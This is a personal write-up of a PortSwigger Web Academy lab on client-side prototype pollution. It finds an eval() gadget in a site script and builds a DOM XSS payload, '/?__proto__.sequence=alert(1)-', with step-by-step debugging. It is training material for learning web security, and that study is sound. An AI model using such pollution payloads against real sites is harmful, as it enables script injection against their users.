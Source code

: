 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-2/"}
---
```



---

## Objective: Get DOM XSS

### Manual Method

We can notice this time the last query doesn't work, but we can use this

```
/?__proto__.foo=bar
```

Verify it worked

![Pasted image 20250330143553.png](/img/user/Images/Pasted%20image%2020250330143553.png)

Now, we check source to find potential gadgets. It will be noticable in `SearchLoggerAlternative.js` .

```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

We have a Sink because the use of the function `eval()`

```js
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```

We can also find the gadget from this line. `manager.sequence` is not being explicitly defined and is user-controllable input that is passed to `eval()`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

Now, we try to pass in the query to exploit

```
?__proto__.sequence=alert(1)
```

But we see that it does not work and returns an error in the console. Click the link at the top to jump to the line where `eval()` is called

![Pasted image 20250330145823.png](/img/user/Images/Pasted%20image%2020250330145823.png)

Put a breakpoint by clicking the line number, then refresh the page

![Pasted image 20250330150125.png](/img/user/Images/Pasted%20image%2020250330150125.png)

If we hover over the gadget reference, we can see that its value is `alert(1)1` .

![Pasted image 20250330150253.png](/img/user/Images/Pasted%20image%2020250330150253.png)

This indicates that our payload worked but because that we polluted `Object.prototype` earlier and because of this block, `sequence` has now inherited `alert(1)` and going down the line, it is concatenated by `1` , making the value of `sequence` property = `alert(1)1`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

To fix this syntax we can append `-` to our exploit

```
/?__proto__.sequence=alert(1)-
```

![Pasted image 20250330151502.png](/img/user/Images/Pasted%20image%2020250330151502.png)
